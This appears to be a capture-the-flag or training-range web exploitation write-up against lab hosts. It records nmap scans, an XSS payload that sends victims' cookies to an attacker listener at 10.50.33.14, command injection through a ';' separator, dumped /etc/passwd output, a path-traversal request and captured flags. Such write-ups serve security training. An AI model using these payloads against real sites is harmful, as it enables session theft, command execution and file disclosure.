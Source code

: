 # Web Exploitation Writeup

Scheme of Movement:
```
> jump
-> 10.100.28.40
```

Target:
```
hostname:   Donovian_MI_websvr
IP:         10.100.28.40
```

Target Scan:
```
Nmap scan report for 10.100.28.40
Host is up (0.0017s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
80/tcp   open  http
4444/tcp open  krb524
```

Target HTTP-enum:
```
80/tcp   open  http
| http-enum:
|   /robots.txt: Robots file
|   /css/:
|   /images/:
|_  /uploads/:
```

Robots.txt:
```
User-agent: *
Disallow: /net_test
```

/uploads/message:
```
Just completed my Cyber Awareness training and it says ATOPIA. Last I checked that is a whole other country.
Please send me a corrected cert with the right now.

I took my online training from the following website

10.100.28.55
```

10.100.28.55 Scan:
```

```

## Cookie Steal on net_test trouble ticket
```
<script>document.location="http://10.50.33.14:8000/?username=" + document.cookie;</script>

username=PHPSESSID=p5dd2vi2u8a8rpptfu8jl0hopj
UdI1GNmUfXOqQnu2gtXn
```

## Net Test
```
Path to test: ; whoami

billybob billybob
```

```
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
www-data:x:33:33:www-data:/var/www:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
billybob:x:1001:1001:you found me 6qfGGS00cer7ppUrsZ6t:/home/billybob:/bin/bash
billybob:x:1001:1001:you found me 6qfGGS00cer7ppUrsZ6t:/home/billybob:/bin/bash
```

ls -la /home
```
drwxr-xr-x  5 root     root     4096 Apr 19  2022 .
drwxr-xr-x 23 root     root     4096 Apr  3 15:41 ..
drwxr-xr-x  2 billybob billybob 4096 Apr 19  2022 billybob
drwxr-xr-x  2 root     root     4096 Apr 19  2022 romanoff@mi.ru
drwxr-xr-x  3 ubuntu   ubuntu   4096 Apr 19  2022 ubuntu
drwxr-xr-x  3 ubuntu   ubuntu   4096 Apr 19  2022 ubuntu
```

cat /home/romanoff@mi.ru/contracts
```
hMbsGTnLxXyDdzx3q2nV
```

RSA Key:
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVjLoLeAVMy2og0HiTGYw59yxSIIrmZaGf60wbv2d86Sy9Ma+vWtsEw4Wk7j0j+I4emuvBPaTu2Nps0HUEF06eowboA+glfH+KQ7uyFiRjp2bCvKBDPHb4DCG64s84iN4iMjNTiDxF+Mhp47ZtOfKzc+oZeDNwInN+r9vkjcwwn9lZOmXlE1htYBY41lfasd868ORmO5fiTJGVR6eYzBf8pqOCg8wxOdysQlGUqAWawnnAp9hiJZKZ5a/u8dlMnNpkZI7kv6DFburmiewM8b5Gm0NOKhc654z0fOPrzU2iSJUf76ZET6o6p/tPJgahstBlebMYCHz7GQzXMKVYta3V student@lin-ops
```

## Training Recon:

NMAP 10.100.28.55:
```
Nmap scan report for 10.100.28.55
Host is up (0.0064s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum:
|   /css/:
|   /images/:
|_  /js/:
```

website:
```
win_the_game()
```

book:
```
http://10.100.28.55/books_pick.php?book=../../../../../etc/passwd
```

Ig1kKvAzOzsc1FEtVCzN
